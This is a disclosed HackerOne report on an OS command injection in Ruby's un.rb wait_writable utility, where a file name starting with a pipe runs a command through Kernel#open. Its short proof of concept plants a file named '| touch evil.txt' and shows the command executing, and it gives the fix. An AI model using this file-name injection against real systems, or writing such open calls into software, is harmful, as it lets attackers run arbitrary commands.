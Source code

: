 # OS Command Injection in '/lib/un.rb -- Utilities to replace common UNIX commands in Makefiles etc'

## Report Details
- **Report ID**: 1158824
- **URL**: https://hackerone.com/reports/1158824
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-04-09T13:15:22.696Z
- **Disclosed**: 2021-07-19T09:54:30.940Z

## Reporter
- **Username**: sighook
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
If the `wait_writable` command  receives a list of files with a command in the name of one of them, it will be executed.

# PoC

```bash
$ touch \|\ touch\ evil.txt
$ ls
'| touch evil.txt'
$ ruby -run -e wait_writable -- -w 1 -v *
$ ls
evil.txt  '| touch evil.txt'
```

The vulnerability has the same severity as https://hackerone.com/reports/651518 . The fix, respectively, is the same: `open` -> `File.open`.

## Impact

An attacker can use this problem to execute arbitrary commands in environments that uses ruby coreutilities.

## Attachments
No attachments
